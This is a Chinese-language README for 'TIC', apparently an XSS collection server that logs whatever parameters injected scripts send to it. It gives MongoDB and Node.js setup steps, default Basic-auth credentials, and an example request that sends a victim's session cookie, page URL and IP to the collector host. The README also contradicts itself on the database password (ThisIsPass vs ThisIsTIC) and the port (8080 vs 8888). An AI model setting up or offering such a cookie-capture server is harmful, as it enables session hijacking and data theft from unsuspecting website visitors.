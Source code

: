 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1.安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1  
2.安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改config.json中db字段的数据库账号密码.  
"db":{
		"dbname":"TIC",
		"address":"localhost",
		"username":"TIC",
    	"password":"ThisIsTIC"
	}
```
  
  
3.进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
```
如果需要修改端口,可以在config.json中找到port,把8888修改成你想要变更的端口.  
"port":8888
```
  
  
4.本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun
```
你可以在config.json中找到auth字段 把username and password改为你想要变更的账号密码.
"auth":{
	  "username":"0x_Jin",
	  "password":"wooyun",
	  "Basic_realm":"0x_Jin xss1.com"
}
```
  
  
5.如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6.关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
```
example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  
除了GET外,POST也可以.
```
  
  
7.结果分为两大部分,第一部分为header,第二部分为request
```
header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.  
  
example:  
 {
        "header":{
            "useragent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2478.0 Safari/537.36",
            "referer":"http://zone.wooyun.org/",
            "srcip":"::1"
        },
        "time":"2015/8/13 13:13:40",
        "request":{
            "url":"www.xss1.com",
            "referer":"www.wooyun.org"
        }
    }
```

  
